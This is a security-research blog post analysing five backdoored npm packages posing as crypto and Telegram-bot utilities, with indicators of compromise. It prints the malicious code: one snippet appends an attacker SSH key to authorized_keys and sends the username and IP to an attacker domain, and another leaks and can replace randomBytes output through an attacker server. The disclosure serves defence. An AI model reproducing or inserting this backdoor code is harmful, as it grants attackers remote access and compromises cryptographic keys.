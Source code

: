 ```yaml
---
excerpt: JFrog Security Research team found five fake cryptography packages in npmthat  contained backdoor code
title: Five Backdoored Cryptography Packages Operating Undetected for Six Months
date: "October 20, 2025"
description: "Andrey Polkovnychenko, JFrog Security Researcher"
tag: "Real Time Post"
img: /img/RealTimePostImage/post_thumbnail1.png
type: realTimePost
minutes: '1'

---
```


Our research team found a npm user jamestonytrump who published five malicious packages containing backdoors. One of them, the npm package “grammy-tools” masquerades as a legitimate library for Telegram bots. The malicious software adds a public key to `~/.ssh/authorized_keys` and transmits the username and external IP address to `grammy[.]validator[.]icu`. This action provides an attacker with complete control over the compromised system.

![](/img/RealTimePostImage/post/npm_backdoor.png)

```javascript
const publicKey = `ssh-rsa AAAAB3NzaC1yc2EAAAADAQ`
const username = os.userInfo().username;
const ipAddress = await getBotId();
const fullPublicKey = `${publicKey}`;
const sshDir = path.join(os.homedir(), '.ssh');
const authorizedKeysPath = path.join(sshDir, 'authorized_keys');
fs.writeFileSync(authorizedKeysPath, `${fullPublicKey}\n`, { mode: 0o600 });
https.get(`https://grammy.validator.icu/v1/check?ip=${ipAddress}&name=${username}&type=${types}`, (res1) => {   
res1.on('data', () => { });
});
```

The additional four packages: grammy-guards, crypter-validater, crypt-validater,   
node-crypto-validater follow the same logic of adding a backdoor to the attacked system. Each of them mimics a cryptographic utility, exporting functions typical of legitimate crypto libraries:

```javascript

import * as crypto from "crypto";
export declare function validate(content: any): any;
export declare function createPrivateKey(key: crypto.PrivateKeyInput | string | Buffer | crypto.JsonWebKeyInput, callback?: any): any;
export declare function randomBytes(byretes: number, callback?: any): any;
export declare function checkPrime(value: crypto.LargeNumberLike, callback?: any): any;
```

At first glance, this appears to be a thin wrapper over Node’s built-in crypto module. The only difference it makes to the legitimate cryptographic library is the addition of a backdoor in one of the functions. The function randomBytes contains a code that sends the entropy of the generated random values to an attacker-controlled server. The backdoor works differently, depending on the mode in which the original function was called. In blocking mode, it returns the result immediately, so applications receive randomness even as the attacker quietly captures it. But if the function was called in asynchronous mode with a callback, it replaces the result with the bytes returned by the server.

Either case is catastrophic because random entropy is the core of any cryptographic system. A leak of raw entropy makes any secret, private key, nonce, or other cryptographic data produced by the infected system compromised.  

```javascript
function check_validator(bytes, callback) {
   if (fetch('https://web3.validator.icu/v1/check', {
           method: 'POST',
           body: JSON.stringify({
               action: 'validator',
               content: bytes
           })
       }).then(res => {
      callback && res.json().then(res => {
      res.success ? callback(null, bytes):callback(res.message);
           });
       }) {
       return true;
   }
}

function randomBytes(size, callback) {
   const result = crypto.randomBytes(size).toString('hex');
   return check_validator(result, callback) ? result : null;
}
```

We reported these packages to the npm security team and added information about these packages to [JFrog Xray](http://jfrog.com/xray) to provide an added layer of security for our customers.

Check out the [JFrog Security Research](https://research.jfrog.com/) center for more information about the latest CVEs, vulnerabilities, and fixes to keep your software supply chain secure.

## IOC

Domain  
`web3[.]validator[.]icu`  
Packages

* grammy-tools \- XRAY-736302  
* grammy-guards XRAY-736301  
* crypter-validater XRAY-736304  
* crypt-validater XRAY-736300  
* node-crypto-validater XRAY-736303
